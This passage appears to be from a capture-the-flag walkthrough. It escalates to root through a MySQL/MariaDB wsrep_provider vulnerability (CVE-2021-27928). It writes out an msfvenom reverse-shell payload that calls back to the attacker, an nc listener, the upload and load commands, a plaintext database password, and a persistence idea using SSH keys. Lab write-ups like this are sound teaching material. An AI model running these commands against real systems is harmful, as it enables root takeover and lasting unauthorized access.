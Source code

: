 We can see that `mysql` is running as root with `ps -au root` and `pgrep -u root mysql`, so getting command execution using this vulnerability will let us run commands as root.

### Using the Exploit

Let's follow the steps proved by the exploit-db file. First, we create the reverse shell payload with `msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=14781 -f elf-so -o CVE-2021-27928.so`. Then, we start listening with `nc -lnvp 14781`. We use `pwncat` to upload the exploit to the target with `upload CVE-2021-27928.so /tmp/CVE-2021-27928.so`. Then, we run the payload with `mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'` and enter the password `bloooarskybluh`.

Sure enough, we get a root shell with our `nc` listener. We can now run `cat /root/root.txt` to get the `root.txt` flag.

We could now establish persistance by uploading our ssh public key to `/root/.ssh/authorized_key` and then started the `sshd` service if we wanted.
